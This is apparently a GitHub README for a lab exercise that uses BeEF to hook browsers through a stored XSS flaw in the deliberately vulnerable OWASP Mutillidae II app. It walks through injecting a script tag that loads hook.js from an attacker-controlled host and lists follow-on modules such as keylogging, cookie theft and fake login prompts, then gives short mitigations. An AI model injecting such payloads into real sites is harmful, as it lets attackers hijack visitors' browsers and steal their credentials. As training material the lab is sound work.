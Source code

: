 # 🔥 BeEF + Mutillidae XSS Demo

This project demonstrates how to use **BeEF** to hook a browser via a stored/reflected XSS vulnerability in **OWASP Mutillidae II**, and simulate client-side exploitation for educational and SOC analysis purposes.

> ⚠️ This is for **educational use only** in a legal lab environment.

---

## 🧪 Tools Used
- **Kali Linux** with BeEF (`beef-xss`)
- **OWASP Mutillidae II** vulnerable web app
- **Python HTTP Server** (to serve hook files or malicious pages)

---

## 🧷 Scenario

1. Launch BeEF (`sudo beef-xss`)
2. Navigate to Mutillidae > `XSS > Stored XSS`
3. Inject BeEF hook:
   ```html
   <script src="http://<KALI-IP>:3000/hook.js"></script>
   ```
4. Victim browses the vulnerable page → gets hooked by BeEF.
5. Attacker now executes modules (keylogger, port scanner, webcam test...).

---

## 📂 File Structure
- `attack_files/xss_mutillidae_payload.txt`: BeEF XSS injection example
- `report/incident_report.md`: SOC-style incident analysis
- `screenshots/`: Evidence of attack steps

---

## 📸 Screenshots

### 🎯 Mutillidae Home Page  
![Mutillidae Home Page](screenshots/mutillidae-home-page.png)

### 🧰 Word Image  
![Word Image](screenshots/word-image-12.webp)

----

## 📑 Sample Payload (`xss_mutillidae_payload.txt`)
```html
<script src="http://<KALI-IP>:3000/hook.js"></script>
```

> Injected into a form or URL parameter in Mutillidae

---

## 📖 Report Summary
- Target: Mutillidae (XSS > Stored)
- Hooked Victim Browser via malicious JavaScript
- Demonstrated:
  - Internal network scan
  - Cookie stealing simulation
  - Fake login prompt
- Analysis in `report/incident_report.md`

---

## 🛡️ Mitigation
- Content Security Policy (CSP)
- Input sanitization
- Disabling inline scripts

---

## 🧑‍💻 Author
Roei Ben Simon  
[GitHub » Roeibs100](https://github.com/Roeibs100)
